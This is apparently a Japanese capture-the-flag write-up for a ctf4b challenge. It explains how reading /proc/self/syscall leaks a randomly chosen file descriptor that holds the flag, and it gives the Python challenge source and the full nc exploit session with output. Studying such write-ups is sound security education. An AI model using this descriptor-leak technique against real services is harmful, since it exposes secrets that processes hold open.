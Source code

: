 #　解法

以下のスクリプトが与えられる。

```
import os
import random

fd_flag = random.randint(16, pow(2, 16))
with open('flag', 'r') as f:
  os.dup2(f.fileno(), fd_flag)

def ask_path() -> str:
  path = input('path: /proc/')
  path = f'/proc/{path}'
  if not os.path.exists(path):
    exit('file not found :(')
  elif not os.path.isfile(path):
    exit('not a file :(')
  elif 'flag' in path or '.' in path:
    exit('path not allowed :(')
  return path

def read_file(path: str):
  with open(path, 'r') as f:
    os.dup2(f.fileno(), fd_flag + 1)
    print(os.read(fd_flag + 1, 256))

if __name__ == '__main__':
  path = ask_path()
  read_file(path)

  try:
    fd = int(input('fd: '))
    print(os.read(fd, 256))
  except:
    exit('error :(')
```

`/proc`以下の指定したファイルの内容を表示した後、任意のfdが指すファイルの内容を見ることができるようである。
また、スクリプトの最初では`flag`ファイルをランダムなfdで開いており、このfdを見つけることができればフラグが入手できることがわかる。

スクリプトを読んで処理を追っていくと、`read_file`関数の処理が不自然であることに気づく。
```
def read_file(path: str):
  with open(path, 'r') as f:
    os.dup2(f.fileno(), fd_flag + 1)
    print(os.read(fd_flag + 1, 256))
```
`open`関数の返り値を変数`f`に代入しているため`f.read()`でファイルの内容を読むことができるが、ここではわざわざ`os.read`関数を用いている。
さらにはfdとして`fd_flag + 1`が指定されており、この値が分かれば`fd_flag`の値を求めることができそうである。

そこで`/proc`以下のファイルにおいてfdをテキストとして返してくれるようなものがないか調査すると、`/proc/self/syscall`というファイルが使えそうなことがわかる。
このファイルでは以下のようにシステムコールに与えられた引数の情報を表示できる。
```
$ cat /proc/self/syscall
0 0x3 0x7fe6e9c7e000 0x20000 0x22 0xffffffff 0x0 0x7ffea3be4328 0x7fe6e9b89931
```
例えばこの実行例では、`/proc/self/syscall`というファイルが、catコマンドによって、fd=0x3でreadされている。

つまりここまでにわかったことをまとめると、`/proc/self/syscall`ファイルを表示させることで`fd_flag + 1`の値がわかるため、この値から1を引いた数をfdとして与えることでフラグを入手できる。
したがって、以下のようにフラグを得ることができる（`2641=0xa52-1`)。
```
$ nc localhost 13778
path: /proc/self/syscall
b'0 0xa52 0x7f5d08835480 0x100 0x0 0x0 0x0 0x7ffc08e4cf58 0x7f5d08e29fac\n'
fd: 2641
b'ctf4b{y0u_f0und_7h3_7r3a5ur3_1n_pr0cf5}\n'
```
